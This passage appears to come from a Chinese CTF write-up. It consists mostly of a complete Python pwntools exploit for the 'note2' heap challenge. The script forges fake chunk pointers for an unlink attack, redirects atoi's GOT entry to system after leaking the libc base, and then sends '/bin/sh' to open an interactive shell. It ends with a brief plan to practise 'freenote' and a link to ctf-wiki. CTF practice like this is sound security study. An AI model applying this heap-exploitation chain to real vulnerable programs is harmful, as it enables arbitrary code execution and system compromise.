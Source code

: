 ```python
def unlink():
	ptr = 0x0000000000602120
	fakefd = ptr - 0x18
	fakebk = ptr - 0x10
	content = 'a' * 8 + p64(0x61) + p64(fakefd) + p64(fakebk) + 'b' * 64 + p64(0x60)
	#content = p64(fakefd) + p64(fakebk)
	newnote(128, content)
	# chunk1: a zero size chunk produce overwrite
	newnote(0, 'a' * 8)
	# chunk2: a chunk to be overwrited and freed
	newnote(0x80, 'b' * 16)
	deletenote(1)
	content = 'a' * 16 + p64(0xa0) + p64(0x90)
	newnote(0, content)
	deletenote(2)
def system():
	atoi_got = note2.got['atoi']
	content = 'a' * 0x18 + p64(atoi_got)
	editnote(0, 1, content)
	
	shownote(0)

	p.recvuntil('is ')
	atoi_addr = p.recvuntil('\n', drop=True)
	print atoi_addr
	atoi_addr = u64(atoi_addr.ljust(8, '\x00'))
	print 'leak atoi addr: ' + hex(atoi_addr)

	# get system addr
	atoi_offest = libc.symbols['atoi']
	libcbase = atoi_addr - atoi_offest
	system_offest = libc.symbols['system']
	system_addr = libcbase + system_offest
	
	print 'leak system addr: ', hex(system_addr)
	content = p64(system_addr)
	editnote(0, 1, content)
	gdb.attach(p)
	p.recvuntil('option--->>')
	p.sendline('/bin/sh')
	p.interactive()

def main():
	p.recvuntil('name:')
	p.sendline('hello')
	p.recvuntil('address:')
	p.sendline('hello')
	unlink()
	system()
if __name__ == "__main__":
    main()

```

接下来 .. 再做一遍 freenote 吧，真的老是忘。还有各种坑要填

### 参考链接
https://ctf-wiki.github.io/ctf-wiki/pwn/heap/unlink/


